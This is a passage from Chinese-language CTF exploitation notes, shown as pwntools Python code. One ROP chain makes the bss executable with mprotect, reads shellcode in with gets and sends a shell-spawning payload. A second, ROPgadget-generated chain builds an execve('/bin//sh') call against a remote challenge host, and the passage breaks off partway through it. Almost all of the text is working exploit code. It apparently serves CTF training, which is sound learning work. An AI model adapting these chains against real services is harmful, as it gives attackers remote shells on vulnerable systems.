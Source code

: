 ```python
payload+= p64(bss_start_addr)
payload+= p64(pop_rsi_ret)
payload+= p64(0x1000)
payload+= p64(pop_rdx_ret)
payload+= p64(0x7)
payload+= p64(libc.sym['mprotect'])
payload+= p64(main)
#gdb.attach(io)
io.sendline(payload)

#step3 : gets_shellcode_to_bss
#非常好用的一小步
payload = cyclic(40)
payload+= p64(pop_rdi_ret)
payload+= p64(shellcode_addr)
payload+= p64(libc.sym['gets'])
payload+= p64(main)

io.sendline(payload)
io.sendline(asm(shellcraft.sh()))
```

##### 2.gets无限制输入rop

```shell
ROPgadget --binary pwn --ropchain
#上面是工具的自带生成rop工具 pwn是文件名
#利用这个生成的rop来写payload
```

例子：

```python
from pwn import *
from struct import pack
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context(arch='amd64')
io = remote('gz.imxbt.cn',20409)
p = b''
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000419484) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000401f2f) # pop rdi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000047f2eb) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
```